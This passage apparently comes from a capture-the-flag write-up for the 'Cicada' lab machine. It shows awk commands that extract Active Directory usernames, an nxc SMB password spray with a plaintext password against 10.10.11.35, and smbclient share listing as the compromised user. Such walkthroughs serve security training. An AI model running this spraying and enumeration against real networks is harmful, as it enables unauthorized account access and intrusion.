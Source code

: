 Then i used AWK to get usernames separately for brute-forcing.

```
> cat enum_accs.txt | awk '{print $6}' > users.txt
> cat users.txt | awk -F "\\" '{print $2}' > usernames.txt
```

Which produces

```
guest:
Enterprise
Administrator
Guest
krbtgt
Domain
Domain
Domain
Domain
Domain
Cert
Schema
Enterprise
Group
Read-only
Cloneable
Protected
Key
Enterprise
RAS
Allowed
Denied
CICADA-DC$
DnsAdmins
DnsUpdateProxy
Groups
john.smoulder
sarah.dantelia
michael.wrightson
david.orelious
Dev
emily.oscars
```

Next i pass enumerated users and known passwords and see which account matches this password

```
> nxc smb 10.10.11.35 -u enum_users.txt -p 'Cicada$M6Corpb*@Lp#nZp!8' --continue-on-success
```

michael.wrightson account was a match.

Then we test user connection by listing network shares as an authorized user

```
> smbclient -L 10.10.11.35 -W cicada.htb -U michael.wrightson.
```
